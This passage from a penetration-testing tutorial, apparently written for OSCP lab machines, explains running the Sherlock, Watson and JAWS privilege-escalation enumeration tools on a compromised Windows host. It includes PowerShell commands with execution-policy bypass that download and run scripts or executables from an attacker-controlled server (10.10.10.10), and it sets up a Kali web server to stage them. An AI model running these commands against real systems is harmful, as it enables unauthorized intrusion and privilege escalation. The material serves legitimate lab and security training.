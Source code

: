 - Now we can run this from the remote Windows CMD shell:
  `@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Sherlock.ps1'))"`
- Or from a Windows Powershell:
  `IEX(New-Object Net.Webclient).downloadString('http://10.10.10.10/Sherlock.ps1')`

##### Running Watson

Sherlock has been superceded by a .net Windows enumeration platform called Watson which is frequently updated by the author. It is a bit tricker to deploy and use as you need to compile it yourself and match the version of .net with the target system's version.

- First, on the target system we will need to check the versions of .Net that have been installed by navigating to the .net framework folder and poking around:

  ```CMD
  cd \Windows\Microsoft.NET\Framework\
  dir /s msbuild
  ```

- Only active versions of .NET will have the msbuild.exe. Make note of the available versions and leverage that to compile your version of Watson that targets the remote Windows machine. Download the latest version of Watson from github:

  `git clone https://github.com/rasta-mouse/Watson.git`
- And open it using Visual Studio. In the Solution Explorer, click the Properties and modify the "Target Framework:" value to align with the remote Windows machine's version of the .Net framework. It will prompt you to reopen the project. Once the project has reloaded, Build the project under the Release mode (CTRL + SHIFT + B).

- Next we will copy our Watson.exe to our Kali instance and setup a simple python HTTP webserver in Kali to host the file which the remote Windows box can download it from:

  ```bash
  root@kali:~/tools# cd Watson/
  root@kali:~/tools/Watson# python -m SimpleHTTPServer 80
  Serving HTTP on 0.0.0.0 port 80 ...
  ```

- Now we will need to transfer the compiled Watson.exe file to our remote windows box:
  `@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/Watson.exe\", \"C:\\Users\\Public\\Downloads\\Watson.exe\");`

And now we run the executeable on the remote machine. I like run with all the audit enabled like so:

  ```CMD
  C:\Users\Admin>cd ..
  C:\Users>cd Public
  C:\Users\Public>cd Downloads
  C:\Users\Public\Downloads>Watson.exe
  ```

##### Running JAWS - Just Another Windows (Enum) Script

JAWS is another powershell library that was built with privledge escalation of the OSCP lab machines in mind. We can stage and run JAWS on a remote http server so the file never needs to hit the remote server's HDD.
  `git clone https://github.com/411Hall/JAWS`
